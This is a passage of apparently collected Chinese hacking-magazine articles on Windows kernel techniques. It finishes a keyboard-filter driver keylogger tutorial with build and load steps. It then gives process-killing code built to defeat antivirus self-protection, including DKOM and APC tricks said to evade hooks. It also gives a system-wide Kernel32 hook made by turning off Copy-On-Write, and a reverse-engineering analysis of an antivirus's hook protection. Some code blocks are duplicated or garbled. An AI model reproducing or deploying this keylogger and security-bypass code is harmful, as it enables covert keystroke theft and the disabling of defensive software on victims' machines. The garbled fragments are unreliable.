`InitializeObjectAttributes()` 函数为 `ZwCreateFile()` 函数提供了一个类型为 `OBJECT_ATTRIBUTES` 的参数，也就是要创建的文件名信息。该函数的第一个参数是对象属性的指针，类型为 `POBJECT_ATTRIBUTES`，该指针作为 `ZwCreateFile()` 函数的参数使用；第二个参数为对象名的绝对路径，`uFileName` 是转换成 Unicode 类型的文件名；第三个参数指定了对象的属性，`OBJ_CASE_INSENSITIVE` 表示文件名忽略字母的大小写；第四个参数表示创建的对象所在根目录的句柄；第五个参数表示初始化的安全描述符。

`ZwCreateFile()` 函数在内核模式下创建指定的文件。该函数的第一个参数表示创建函数句柄的指针，`pKeyboardDeviceExtension` 是设备扩展的指针；`hLogFile` 类型是 `HANDLE`，表示记录截获的按键信息的文件句柄；第二个参数指定了对于创建文件的权限，因为需要将按键信息写入到文件中，因此需要将该参数设置为 `GENERIC_WRITE`，表示具有写权限；第三个参数是通过 `InitializeObjectAttributes()` 初始化的结构指针；第四个参数是接收完成状态结构的指针，`file_status` 在 `DriverEntry()` 中声明为 `IO_STATUS_BLOCK file_status;`；第五个参数指定了为文件分配的大小；第六个参数指定了创建文件的属性，`FILE_ATTRIBUTE_NORMAL` 表示创建的文件具有标准属性；第七个参数指定了新创建文件的共享权限，`0` 表示调用者对新创建的文件拥有独占权限（exclusive access）；如果指定的文件存在，第八个参数决定了接下来的动作，`FILE_OPEN_IF` 表示如果指定的文件存在则打开文件，如果指定的文件不存在则创建文件；第九个参数指定了创建文件时的一些选项，`FILE_SYNCHRONOUS_IO_NONALERT` 的含义是在新创建的文件上进行的所有操作都是同步的，这些在同步队列中的等待不支持被通知；第十个参数是一个缓冲区，对于设备和中间驱动来说，该参数必须设置为 `NULL`；第十一个参数表示第十个参数所表示缓冲区的长度，对于设备和中间驱动来说，该参数必须设置成 `NULL`。

回到 `KbdLog.cpp` 执行文件中的工作者线程 `ThreadKeyLogger()` 中来，在调用 `ConvertScanCodeToKeyCode()` 函数将按键扫描码信息转化成真正的按键信息之后，对按键信息和文件句柄进行判断。

```c
if (keys != 0)
{
    if (pKeyboardDeviceExtension->hLogFile != NULL)
    {
        ...
    }
}
```

其中，`keys` 是通过 `ConvertScanCodeToKeyCode()` 函数转换后的真正按键信息，通过设备扩展的指针调用的文件句柄 `hLogFile` 是驱动程序入口函数 `DriverEntry()` 中调用 `ZwCreateFile()` 函数获得的创建文件句柄。

如果真正的按键信息和文件句柄都不为空，则调用 `ZwWriteFile()` 函数将真正的按键信息拷贝到创建的文件中。

```c
IO_STATUS_BLOCK io_status;
NTSTATUS status = ZwWriteFile(pKeyboardDeviceExtension->hLogFile,
    NULL, NULL, NULL, &io_status,
    keys, strlen(keys), NULL, NULL);
```

`ZwWriteFile()` 函数的第一个参数表示指定文件的句柄；第二个参数表示一个事件的句柄，当写入操作完成后，该事件将被设置成“有信号（signaled）”状态，对于设备和中间驱动来说，该参数可以设置为 `NULL`；第三个参数表示 APC 例程，对于设备和中间驱动，该参数可以设置为 `NULL`；第四个参数表示 APC 的上下文，对于设备和中间驱动，该参数可以设置为 `NULL`；第五个参数是一个变量指针，该变量用来保存写入时的信息和写入状态；第六个参数表示要写入文件的信息；第七个参数表示保存写入内容的缓冲区大小；第八个参数表示向文件写入数据时，将数据写入到文件的哪个位置，`NULL` 表示将数据写入到文件的当前位置处；第九个参数是一个 `PULONG` 类型的变量，对于设备和中间驱动，该参数可以设置为 `NULL`。

以上代码将截获到的按键信息保存在了指定文件中。

##### 卸载函数

回到 `Klog.cpp` 执行文件的驱动程序入口函数 `DriverEntry()` 中来：最后，在入口函数中设置卸载函数，当驱动程序卸载时调用该函数。

```c
pDriverObject->DriverUnload = Unload;
```

`Unload()` 函数在 `Klog.cpp` 执行文件中定义。在该函数中，首先获取驱动的设备扩展指针。

```c
PDEVICE_EXTENSION pKeyboardDeviceExtension = (PDEVICE_EXTENSION)pDriverObject->DeviceObject->DeviceExtension;
```

接下来调用 `IoDetachDevice()` 函数将添加到键盘设备堆栈中的本驱动程序对应的设备对象从设备堆栈中删除。

```c
IoDetachDevice(pKeyboardDeviceExtension->pKeyboardDevice);
```

然后，根据前面提到的表示等待的 IRP 数量的变量 `numPendingIrps` 进行判断，如果该变量大于 0，说明此时还有 IRP 等待处理。对于这种情况，卸载函数使用计数器等待 IRP 被处理完。

```c
KTIMER kTimer;
LARGE_INTEGER timeout;
timeout.QuadPart = -100000;
KeInitializeTimer(&kTimer);
while (numPendingIrps > 0)
{
    KeSetTimer(&kTimer, timeout, NULL);
    KeWaitForSingleObject(&kTimer, Executive, KernelMode, FALSE, NULL);
}
```

其中，`LARGE_INTEGER` 类的成员变量 `QuadPart` 的单位是千万分之一秒。`KeInitializeTimer()` 函数的作用是初始化计数器。`KeSetTimer()` 函数的作用是设置计数器。接下来，将工作者线程的状态设置为可结束。

```c
pKeyboardDeviceExtension->bThreadTerminate = TRUE;
```

之后，释放创建的信号灯。

```c
KeReleaseSemaphore(&pKeyboardDeviceExtension->semQueue, 0, 1, TRUE);
```

然后，调用 `KeWaitForSingleObject()` 函数等待工作者线程结束。

```c
KeWaitForSingleObject(pKeyboardDeviceExtension->pThreadObj, Executive, KernelMode, FALSE, NULL);
```

接下来调用 `ZwClose()` 函数关闭打开的文件句柄。

```c
ZwClose(pKeyboardDeviceExtension->hLogFile);
```

最后，删除已创建的设备对象。

```c
IoDeleteDevice(pDriverObject->DeviceObject);
```

最后，我们再次回顾下驱动程序入口函数 `DriverEntry()` 的流程，如图 12 所示。在 `DriverEntry()` 函数中，首先对 `IRP_MJ_READ` 设置派遣函数，在派遣函数中注册完成例程，截获“上行”IRP 中的按键信息。之后，调用自定义函数 `HookKeyboard()` 将创建的设备对象挂载到键盘的设备堆栈上。然后，调用自定义函数 `InitThreadKeyLogger()` 创建工作者线程，在工作者线程中，将截获的按键信息保存在指定文件中，接下来调用 `ZwCreateFile()` 函数创建指定文件，最后将驱动的卸载例程设置为 `Unload()` 函数。


##### 驱动程序的编译

在对驱动程序进行编译之前，还需要在驱动程序路径中加入 MAKEFILE 文件和 SOURCE 文件。MAKEFILE 文件指定了驱动程序文件之间相互依赖的关系，确定项目中哪些文件需要重新编译。大多数情况下，MAKEFILE 文件的内容是：

```makefile
INCLUDE $(NTMAKEENV)\makefile.def
```

以上内容表示文件在编译时需包含 DDK 目录中的 `makefile.def` 文件。SOURCE 文件记录了需要编译的源文件文件名、包含目录路径、库目录路径等信息。本程序的 SOURCE 文件内容为：

```ini
TARGETNAME=Klog
TARGETPATH=BIN
TARGETTYPE=DRIVER
MSC_WARNING_LEVEL=/W3
SOURCES= Klog.cpp KbdLog.cpp ScanCode.cpp KbdHook.cpp
```

其中，`TARGETNAME` 表示目标驱动名称，即编译后生成的驱动程序名称；`TARGETPATH` 表示目标代码生成路径，即生成的驱动程序保存路径；`TARGETTYPE` 表示目标代码生成类型，`DRIVER` 表示生成驱动；`MSC_WARNING_LEVEL` 表示编译警告级别，`/W3` 表示第三级别警告；`SOURCES` 指定了工程的所有源文件。

使用 Windows DDK 对以上代码进行编译。单击“开始”按钮选择“所有程序”，之后选择 Development Kits → Windows DDK → Build Environments → Win XP Checked Build Environment，进入编译环境，如图 13 所示。假设驱动程序代码保存在 C 盘根目录下的 Klog 文件夹下，在 DDK 编译环境中输入 `cd c:\` 将当前路径设置为 C 盘根目录，然后输入 `cd Klog` 将路径设置为 Klog 文件夹，如图 14 所示。最后，在该环境下输入 `build`，并按下回车键，如图 15 所示。编译得到的驱动程序是 `bin` 文件夹下 `i386` 子文件夹中的 `Klog.sys` 文件。


接下来通过 `DriverMonitor.exe` 程序加载 `Klog.sys` 驱动程序。加载方法是在 `DriverMonitor.exe` 程序主界面中选择工具栏中的“打开”图标，通过路径选择对话框选择 `Klog.sys` 文件，之后单击工具栏中绿色的“运行驱动”图标，如图 16 所示。


在启动了键盘监听驱动之后，随便按下键盘按键，之后单击 `DriverMonitor.exe` 程序主界面工具栏中红色的“停止驱动”图标，在 C 盘根目录下 `Klog.txt` 文本文件中就包含了刚才的按键信息，如图 17 所示。


尽管我们比较完美地完成了这款键盘监听程序，但仍然存在一些不足，比如只能监听美式键盘，不能监听汉字等。还有望大家共同加以完善。（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VC  
关键词：编程、PspTerminateProcess、APC

#### 模拟实现 NT 系统通用 PspTerminateProcess


文／图 胡文亮（Hovi.Delphic）[HooS—Soft]

记得在 2008 年 10 月份的《黑客防线》上，ColdZenLeft 曾经写过一篇《再谈 PspTerminateProcess 及其简单实现》。个人觉得那个方法不是很好，因为定位代码太复杂，而且只能用于 NT5 系统（Windows 2000/XP/2003）上，而无法在 NT6 系统（Windows Vista/2008、Windows 7）上使用。我又上网查找了一下其他使用 PspTerminateProcess 或者更加底层的函数结束进程的代码，都是具有大量硬编码的，而且只能在 Windows XP 系统下使用。经过潜心研究 pjf 网友的《进程终止内幕》，以及大量的实验，终于找到了一种简单的方法模拟 PspTerminateProcess，而且适用于整个 NT 系统，包括最新的 Windows 7.7600.16385。

我们都知道，PspTerminateProcess 实际上就是循环使用 PspTerminateThreadByPointer 来结束进程的每一个线程。而 PspTerminateThreadByPointer 的下一步使用了 KeInitializeApc 和 KeInsertQueueApc 给每个线程插入 APC，最后线程在自己的执行环境里使用 PspExitThread 自行了断。知道了这些原理，实现起来就很简单了。

首先模拟实现 PspTerminateThreadByPointer。第一步，我们要对传入的 ETHREAD 进行检查，确定此地址有效，如果地址无效的话肯定会蓝屏。确定有效之后，使用 DKOM（直接内核对象操作）的方式，把线程标志修改成系统线程（原因后面会解释）；接下来初始化 APC，并安排内核 APC 例程，最后把 APC 插入到指定线程，使线程自杀。实现代码如下：

```c
VOID ApcR(PKAPC Apc, PKNORMAL_ROUTINE *NormalRoutine, PVOID *NormalContext, PVOID *SystemArgument1, PVOID *SystemArgument2) {
    ExFreePool(Apc);
    PsTerminateSystemThread(STATUS_SUCCESS);
}

NTSTATUS PspTerminateThreadByPointer(PETHREAD Thread) {
    ULONG SYSTEM_THREAD = 0x10;
    NTSTATUS st = STATUS_UNSUCCESSFUL;
    ULONG Size = 0;
    ULONG i = 0;
    PKAPC pApc = 0;
    if (MmIsAddressValid((PVOID)Thread) == TRUE) {
        *(PULONG)((ULONG)Thread + EToffset) = SYSTEM_THREAD;
        pApc = ExAllocatePool(NonPagedPool, sizeof(KAPC));
        KeInitializeApc(pApc, Thread, OriginalApcEnvironment, ApcR, 0, 0, KernelMode, 0);
        KeInsertQueueApc(pApc, pApc, 0, 2);
        st = STATUS_SUCCESS;
    }
    return st;
}
```

为什么要把线程标志修改为系统线程呢？因为我们需要使用导出的 `PsTerminateSystemThread`。

这个东西很奇怪：不仅只能结束系统线程，而且只对当前进程线程有效。它唯一的参数就是 `ExitStatus`，所以我们要使用这个函数，只能欺骗我们要结束的线程是系统线程。特别地，只能在内核 APC 例程里使用，否则无效或者把自己的线程给结束了（如果执行此函数的线程是系统线程）。由于 `CrossThreadFlags` 偏移是硬编码，所以我们只能根据系统使用硬编码：Windows XP 的硬编码是 `0x248`，Windows 2003 的硬编码是 `0x240`，Windows Vista 和 Windows 2008 的硬编码是 `0x260`，Windows 7 的硬编码是 `0x280`。我以前曾经看过一段动态确定 `CrossThreadFlags` 的代码，但是效果不好（蓝屏），所以就放弃了。

值得商榷的还有插入 APC 的方式。本文使用的 `KeInsertQueueApc` 的第二个参数是 APC 指针，第四个参数是 `2`，但也可以写作（第二种方法）：`KeInsertQueueApc(Apc, NULL, NULL, 0);`。我曾经询问 `syf` 这两种方法的差异性，`syf` 说第二种方法比较好。

原因有两个：

- 第一种方式容易导致 APC 重入造成蓝屏。
- 许多挂钩 `KeInsertQueueApc` 的驱动在判断函数里只判断最后一个参数是不是 `2`，如果不是，即使 `Apc->Thread` 是被保护的线程也放过。第二种方式算是钻了一个空子。

至于是否真如此，大家可以修改提供的源码试试。

另外有意思的是，如果在内核 APC 例程里使用 `KeTerminateThread`（仅 NT5 系统导出，NT6 不导出），就会使线程失去调度而没有被结束。实现了 `PspTerminateThreadByPointer` 之后，就要实现 `PspTerminateProcess`。真正的 `PspTerminateProcess` 是通过枚举 `ThreadListHead` 得到进程的所有线程并调用 `PspTerminateThreadByPointer` 结束之。

本文为了避免再次硬编码，采用循环 `PsLookupThreadByThreadId + IoThreadToProcess` 的方式得到进程所有线程，如果是要结束进程的线程，就用自己的 `PspTerminateThreadByPointer` 结束。

```c
NTSTATUS PspTerminateProcess(PEPROCESS Process)
{
    ULONG i;
    PETHREAD txtd;
    PEPROCESS txps;
    NTSTATUS st = STATUS_UNSUCCESSFUL;

    for (i = 8; i < 65536; i += 4)
    {
        st = PsLookupThreadByThreadId(i, &txtd);
        if (NT_SUCCESS(st))
        {
            txps = IoThreadToProcess(txtd);
            if (txps == Process)
            {
                PspTerminateThreadByPointer(txtd);
            }
        }
    }

    return STATUS_SUCCESS;
}
```

这里解释一下为什么线程 ID 枚举到 `65536` 就结束。虽说理论上线程 ID 上限是 `2^32-1`，但通常情况下常见线程 ID 远没有超过 `20000`。我们只考虑绝大多数情况，不考虑极端情况。即使 Rootkit 修改 TID，也可以通过其他方式绕过基于 `ThreadListHead` 的枚举保护。

以上代码对付 Hook SSDT 保护进程的恶意软件、RKU、XueTr 甚至某些版本的驱动都是有效的。若在 Ring3 得到 `KeInsertQueueApc` 地址并传给驱动动态调用，可对付微点 IAT HOOK，但对部分样本（如文中提及案例）仍可能无效。

最后要注意：`PsLookupThreadByThreadId` 有可能被 HOOK，使用前应先恢复钩子（可通过硬编码恢复该函数前若干字节）再调用。

以下，因为我觉得 `PsLookupThreadByThreadId` 应该无法实现 Deep Hook，而且任何 NT 系统中 `PsLookupThreadByThreadId` 的头五字节都是 `8B FF 55 8B EC`。如果安装了江民杀毒软件，可能就无法使用这个函数了，因为听小华子说江民杀毒软件对 `PspCidTable` 的访问做了处理，此时我们就要乖乖地枚举 `ThreadListHead` 来得到线程了。另外，用于判断地址是否有效的 `MmIsAddressValid` 也有可能被 Hook，我们可以用以下代码自己实现 `MmIsAddressValid`。

```c
BOOLEAN MmIsAddressValid(PVOID VirtualAddress)
{
    BYTE PresentSign = 0x1;
    BYTE PageSizeSign = 0x80;
    BYTE PresentAndPageSizeSign = 0x81;
    PVOID lVirtualAddress;
    ULONG PDE, PDEContext;
    ULONG PTE, PTEContext;

    lVirtualAddress = VirtualAddress;
    PDE = (((ULONG)lVirtualAddress >> 21) << 3) & 0x3FF8 + 0xC0600000;
    PDEContext = (ULONG)(PVOID)PDE;
    if (!(PDEContext & PresentSign))
        return FALSE;
    if (PDEContext & PageSizeSign)
        return TRUE;

    PTE = (((ULONG)lVirtualAddress >> 12) << 3) & 0x7FFF8 + 0xC0000000;
    PTEContext = (ULONG)(PVOID)PTE;
    if (PTEContext & PresentSign)
        return TRUE;

    return FALSE;
}
```

```c
return TRUE;

PTE = (((ULONG)VirtualAddress >> 12) << 3) & 0x7FFF8 + 0xC0000000;
PTEContext = (ULONG)(PVOID)PTE;
if (!(PTEContext & PresentSign))
    return FALSE;
if (PTEContext & PageSizeSign)
    return TRUE;
else
{
    PDE = (ULONG)PTE & 0x3FF8 + 0xC0600000;
    PDEContext = (ULONG)(PVOID)PDE;
    if (PDEContext & PresentAndPageSizeSign)
        return TRUE;
}

return FALSE;
}
```

还有就是 DKOM 的问题。如果 Rootkit 修改了 `ETHREAD` 的 `KernelApcDisable` 和 `ApcQueueable`，这段代码就无效了。原因从这两个偏移的名称就可以猜得出来，都是有关拒绝 APC 插入的。

本文附带的所有代码，驱动采用 WDK7 编译，调用实例采用 VB6 编写。

（编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

## 江民2010 KiFastCallEntry Hook 保护原理分析


文/图 虎子哥哥

最近了解了一下新版本的江民 2010，想看看有什么新的变化。在虚拟机中把江民 2010 安装起来，然后打开各种 ARK 工具分析。初步了解后，发现还是与以前相似，江民挂钩了一些 SSDT 和 Shadow SSDT 里的函数。随后到系统各处转转，看到了一个比较有趣的 `nt!KiFastCallEntry` inline Hook。说它有趣，是因为这个钩子用工具恢复以后，江民会重新再钩上去，所以用一般的工具恢复不了。我顿时来了兴趣，想看看江民对这个 inline Hook 的保护是怎么实现的。

WinDbg 调试了一阵子，终于找出了江民的保护原理，这里与大家分享一下。

恢复江民的 `KiFastCallEntry` inline Hook 之后，江民为什么会重新挂钩呢？它好像知道我们恢复了它的钩子似的。难道江民一直在反复读取那个被 Hook 的内存地址，一发现被修改就立刻改回去？于是我拿出 WinDbg，查找江民 Hook 的内存地址在哪。通过跟踪系统函数的调用过程，发现原来江民是修改了下面的地方。

```asm
805425f5 52            push edx
805425f6 50            push eax
805425f7 ff1548d75880  call dword ptr [nt!KeGdiFlushUserBatch]
...
80542608 8b5f0c        mov ebx,dword ptr [edi+0Ch]
8054260b 33c9          xor ecx,ecx

> 这两句被 KV 改成了 jmp 指令
```

80542608 和 8054260b 两句指令，一个是 3 个字节，另一个是 2 个字节，合起来刚好容得下一句 `jmp` 指令。江民就是把这两句改成了跳转指令，从而把程序的执行流程引到江民的模块里去。说到江民的模块，这里要提一下它有两个与 `KiFastCallEntry Hook` 保护相关的模块，分别是 `KSysMon.sys` 和 `SysGuard.sys`。从这句跳转指令跳出系统内核正常的执行流程后，就到了江民的这两个模块里。不过我感兴趣的不是它怎么对系统的函数调用进行过滤，而是江民如何保护这个 inline Hook，所以也就不从这个 `jmp` 跟踪下去了。

好了，已经找到了江民在对 `KiFastCallEntry` 做 inline Hook 时所修改的内存地址，那么接下来就看看它究竟如何保护这个地址不被修改的。用 WinDbg 下一个内存访问断点，把对这个内存地址的读取操作监视起来。设好断点以后，继续执行虚拟机里的系统，果然断了下来，而且地址是在江民的 `KSysMon.sys` 模块里。看来答案就快浮出来了，于是我顺着这个线索找下去，来回几番跟踪过后，终于理清了江民是如何保护这个内存地址不被修改的。

原来江民有一个内核线程，这个线程通过死循环不断读取上述内存地址的值，如果发现这个地址被修改了，就立刻修改回来，所以一般的工具不能对江民的 `KiFastCallEntry Hook` 进行恢复。不过江民把这个线程隐藏起来了，所以用工具查看不到。这也可以看出江民对这个 `KiFastCallEntry Hook` 的重视程度，否则它怎么会折腾这么多东西呢？实在没有办法说明这个线程是实实在在地存在于系统里的，只好把这个线程函数的反汇编代码呈现给大家了。

```asm
// 线程函数，会循环保护 KiFastCallEntry Hook；
// 这个线程是隐藏的
KSysMon+0xcae6
f8005ae6 mov edi,edi
f8005ae8 push ebp
f8005ae9 mov ebp,esp
...
f8005b0f call KSysMon+0xcbb6
...
f8005b4f jmp KSysMon+0xcb5a
...
f8005b77 mov dword ptr [ebp-4],ecx
```

```asm
f8005b74  jmp   KSysMon+0xcb51
f8005b76  push  dword ptr [ebp-14h]
f8005b79  push  dword ptr [ebp-18h]
f8005b7c  lea   eax,[ebp-10h]
f8005b7f  push  eax
f8005b80  call  KSysMon+0xaf02
...
f8005b95  call  KeWaitForSingleObject
f8005b9b  cmp   eax,102h
f8005ba0  jne   KSysMon+0xcc28
f8005ba6  call  KSysMon+0xca50
...
f8005c13  xchg  eax,dword ptr [ecx]
f8005c15  mov   dword ptr [KSysMon+0x...],...
```

```asm
f8005c1a  push  0
f8005c1c  push  0Ah
f8005c1e  call  KSysMon+0x25480
f8005c23  jmp   KSysMon+0xcb85
...
f8005c28  cmp   dword ptr [KSysMon+0x1bbc8],0
f8005c2f  je    KSysMon+0xcc3f
f8005c31  push  0
f8005c33  push  dword ptr [KSysMon+0x1bbc8]
f8005c39  call  ExFreePoolWithTag
f8005c3f  and   dword ptr [KSysMon+0x1bbc8],0
f8005c46  push  0
f8005c48  call  PsTerminateSystemThread
f8005c4e  pop   edi
f8005c4f  leave
f8005c50  ret   4
```

以上 `f8005ba6` 地址处调用的函数 `KSysMon+0xca50`，它所做的是检查 Hook 的内存地址是否被修改；如果发现被修改就重新 Hook。在线程中不断调用这个函数，从而保证了 `KiFastCallEntry Hook` 持续存在。这段反汇编代码的核心思想可用伪代码表示：

```c
ThreadProc()
{
    while (1) {
        st = KeWaitForSingleObject(xxx, xx, x);
        if (st != 0x102)
            break;
        call KSysMon+0xca50;
    }
}
```

注意这个线程是隐藏的，所以一般 ARK 工具看不到。另外该线程位于 `KSysMon.sys` 模块，在江民另一个模块 `SysGuard.sys` 中也有类似隐藏线程来保护其 `KiFastCallEntry Hook`。

Hook 做保护花的力气不小，而且还把线程隐藏了，真没想到杀软也会这么“邪恶”。

江民是怎么保护 `KiFastCallEntry` inline Hook 的，现在终于搞清楚了，那么如何恢复它的钩子？

我们就可以想出很多种办法来了。实现代码这里就不提供了，免得被意图搞破坏的人复制粘贴，拿去危害互联网。

- 前置知识：VC
- 关键词：编程、Hook、Copy-On-Write 机制

#### 禁用 Copy-On-Write 机制实现全局 Hook


文/图 merval

如今讨论 Ring0 级别的 Hook 是如火如荼。Ring3 级的 Hook 虽然操作起来较 Ring0 级的简单，但要想实现全局 Hook 就必须用 DLL 实现。较常见的方法有远线程插入和安装消息钩子，不可避免地会耗费大量的系统资源。如何不使用 DLL 就实现 Ring3 级的全局 Hook 呢？下面就介绍一种应用程序与驱动程序通信的方法：禁用 Copy-On-Write 机制实现全局 Hook。

此类资源在进程之中，对于系统的几个关键 DLL，如 `Kernel32.dll`、`User32.dll` 等，它们在内存中各自存在一份映像，Windows 系统中的所有进程共享的都是同一份 `Kernel32` 的映像。如果禁用了 Copy-On-Write 机制，那么对于 `Kernel32` 中 API 的写操作将会体现在系统的所有进程中，这样就实现了全局 Hook。

##### 原理

Ring3 级的 Hook 如果不使用 DLL 的话，一般情况下只能对本进程有效。这是因为 Windows 使用了一种 Copy-On-Write 机制：当进程试图对特定的共享页面进行写操作时，系统会在写操作进行前先将共享的那一页复制一份，然后重新映射到进程的地址空间，这样用户写入的实际上是复制品，而不是原来的那份，原来的共享页面仍然被其他进程所使用。如图 1 所示为应用程序的第一个实例尝试改变数据页面 2 时的情况。


根据以上所述，只要禁用了 Windows 的 Copy-On-Write 机制，就能使在本进程中对共享资源进行的写操作同样体现在其他所有共享此资源的进程之中。

## PDESPTE

首先介绍一下物理地址扩展（PAE）的概念。在 MSDN 中是这样介绍的：PAE 是 Intel 引入的一种内存地址扩展模式，它允许 32bit 的 x86 系统使用 36bit 寻址，使进程访问的物理地址扩展到 64GB。32bit 的 Windows NT 系统使用基于分页机制的虚拟内存。对于未开启物理地址扩展（PAE）模式的系统，使用两级地址转换。CPU 用来把虚拟地址转换成物理地址的信息存放在叫做页目录（PDE）和页表（PTE）的结构里。每个进程有 4GB 的虚拟地址空间，被分成固定大小的页，物理内存也被分页。页大小是 4KB。PDE 中的每一项内容（每项 4 个字节）的高 20bit 用来存放一个页表的物理地址，低 12bit 存放一些标志。PTE 中每一项的高 20bit 用来存放一个物理页的物理地址，低 12bit 存放一些标志。

每个进程都有自己的 PDE，其物理地址放在 CPU 的 CR3 寄存器中。开启了 PAE 模式的系统，实现了三级地址转换，CPU 的 CR3 寄存器指向页目录指针表，再由它指向页目录。将 SDK 中的 `IsProcessorFeaturePresent` 函数、DDK 中的 `ExIsProcessorFeaturePresent` 函数的参数设为 `PF_PAE_ENABLED` 可判定是否开启 PAE 模式。

```c
未开启 PAE 模式时：

PDE_Addr=((VirtualAddress>>20)&0xFFC)+0xC0300000;
PTE_Addr=((VirtualAddress>>10)&0x3FFFFC)+0xC0000000;


PAE 模式开启时：

PDE_Addr=((VirtualAddress>>18)&0x3FF8)+0xC0600000;
PTE_Addr=((VirtualAddress>>9)&0x7FFFF8)+0xC0000000;
```

```c
struct _HARDWARE_PTE_X86 {
  // sizeof=4
  // bit0 Valid
  // bit1 Write
  // bit2 Owner
  // bit3 WriteThrough
  // bit4 CacheDisable
  // bit5 Accessed
  // bit6 Dirty
  // bit7 LargePage
  // bit8 Global
  // bit9 CopyOnWrite
  // bit10 Prototype
  // bit11 reserved
  // bit12-31 PageFrameNumber
};
```

PTE 的第二位 `bits1-1`（Write）指定了该页的读写权限，若为 0 则该页只读，为 1 则该页可读写。要禁用待修改页的 Copy-On-Write 机制，只需将第二位改为 1 即可。Ring3 代码无法访问 PTE，因此禁用 Copy-On-Write 必须用驱动实现，而实现 Hook 的操作可在应用程序中完成。

##### 具体实现

在实验中，我们首先用应用程序获得要 Hook 的函数 `Beep` 的虚拟地址，接着将虚拟地址发送到驱动程序中，让驱动程序禁用虚拟地址对应页面的 Copy-On-Write 机制，然后在应用程序中进行 Hook，最后再恢复页面的原属性。

由于要全局 Hook，因此 Hook 代码应在 `Kernel32.dll` 中。这里采用传统的函数前五个字节跳转的方法：当调用函数 `Beep` 时，跳转到 `kernel32.dll` 的“空洞”处，弹出 `MessageBox` 对话框，而后返回函数继续执行。

```c
typedef struct _COPY_ON_WRITE_MEMORY {
    PVOID Base;
    ULONG Size;
} COPY_ON_WRITE_MEMORY, *PCOPY_ON_WRITE_MEMORY;
```

```c
#define CTL_CODE(DeviceType, Function, Method, Access) \
  (((DeviceType)<<16) | ((Access)<<14) | ((Function)<<2) | (Method))

#define IOCTL_MODIFY_MEMORY  CTL_CODE(FILE_DEVICE_UNKNOWN, 0x810, METHOD_BUFFERED, FILE_ANY_ACCESS)
#define IOCTL_RECOVER_MEMORY CTL_CODE(FILE_DEVICE_UNKNOWN, 0x820, METHOD_BUFFERED, FILE_ANY_ACCESS)
```

在应用程序中关于如何取得函数地址、查找“空洞”的方法这里不再赘述，主要是一些 PE 格式处理。程序在 `Kernel32.dll` 的“空洞”处插入一段十六进制编码：

```c
BYTE msg[] = {
  0x60,                   // pushad
  0x6A,0x00,              // push MB_OK
  ...
  // 下面部分是 "test" 和 "hello"
  ...
};
```

## 编程解析 / PROGRAMMING ANALYSE（栏目：socket）

```c
0xE8,0X00,0X00,0X00,0X00, // call messagebox
0x61,                    // popad
0x8b,0xff,0x55,0x8b,0xec
0xe9,0X00,0X00,0X00,0X00, // jmp func
```

```c
delete []pInline;
// 接下来为空洞处添加十六进制编码的代码，与以上部分基本相同，此处省略
CloseHandle(hFile);
```

此段编码是弹出 `MessageBox` 对话框，关键是计算 `CALL MessageBox` 和 `JMP func` 处的相对地址，计算公式如下：

```c
CallMsg=(DWORD)AddressOfMsg-(DWORD)(pDosHeader+OffsetGap+33);
JmpOrig=(DWORD)AddressOfFunction+5-(DWORD)(pDosHeader+OffsetGap+44);
```

`AddressOfMsg` 为 `MessageBox` 的函数地址，`AddressOfFunction` 是 Hook 函数地址。`pDosHeader` 为 `Kernel32.dll` 的基地址，`OffsetGap` 为空洞偏移地址。将计算出的地址写入 `msg` 相应位置后，与驱动通信，禁用 Copy-On-Write 对 `Kernel32.dll` 进行写操作。通信部分代码如下：

```c
// 打开驱动程序
HANDLE hFile = CreateFile("\\\\.\\sdDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if(hFile==INVALID_HANDLE_VALUE){ printf("Create device failed\n"); return; }

// 确定要修改的内存地址和大小
PCOPY_ON_WRITE_MEMORY pInline = (PCOPY_ON_WRITE_MEMORY)new char[sizeof(COPY_ON_WRITE_MEMORY)+2];
pInline->Base = (PVOID)AddressOfFunction;
pInline->Size = 5;

DWORD dwRet;
DeviceIoControl(hFile, IOCTL_MODIFY_MEMORY, pInline, sizeof(COPY_ON_WRITE_MEMORY)+2, NULL, NULL, &dwRet, NULL);
memcpy(pInline->Base, ModifyCode, pInline->Size);
DeviceIoControl(hFile, IOCTL_RECOVER_MEMORY, pInline, sizeof(COPY_ON_WRITE_MEMORY)+2, NULL, NULL, &dwRet, NULL);
```

驱动部分主要实现 I/O 控制派遣函数，接收应用程序传入的页面信息，然后禁用被修改页面的 Copy-On-Write 机制，待修改完成后恢复原有属性。关键代码如下：

```c
pMM = (PCOPY_ON_WRITE_MEMORY)pioBuffer;
pMem = pMM->Base;
ulMemSize = pMM->Size;

BOOLEAN PAE;
PAE = ExIsProcessorFeaturePresent(PF_PAE_ENABLED);
if(PAE==TRUE){
  DbgPrint("PAE page mode\n");
  ulPDEB = (((ULONG)pMem)>>18 & 0x3FF8) + 0xC0600000;
  ulPTEB = (((ULONG)pMem)>>9  & 0x7FFFF8) + 0xC0000000;
}else{
  DbgPrint("Non PAE page mode\n");
  ulPDEB = (((ULONG)pMem)>>20 & 0xFFC) + 0xC0300000;
  ulPTEB = (((ULONG)pMem)>>10 & 0x3FFFFC) + 0xC0000000;
}

switch(ulControlCode){
case IOCTL_MODIFY_MEMORY:
  *(PULONG)ulPTEB |= 0x00000002;
  status = STATUS_SUCCESS;
  break;
case IOCTL_RECOVER_MEMORY:
  *(PULONG)ulPTEB &= ~0x00000002;
  status = STATUS_SUCCESS;
  break;
}
```

以上代码中并没有用到 `ulMemSize`，但在源代码中对 `pMem+ulMemSize` 的内存处理了同样操作。处理，以防要修改的内存不在同一页面。至此，禁用 Copy-On-Write 机制实现全局 Hook 的功能已全部实现。

测试成功。源代码中驱动的加载及卸载并没有实现，可用 DriverMonitor 加载查看。另外，Kernel32.dll 中插入的十六进制编码又弹出了一个对话框。至于如何继续完善大家可以自行处理。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

##### 小结

以上代码在 Windows XP SP2 + VC 6.0 下。

前置知识：无  
关键词：反外挂，秘密通信

#### 游戏反外挂系统之秘密通信原理


文／Shawn(L.Spiro)Wilcoxen 译／niusksk(泉哥)

##### 前言

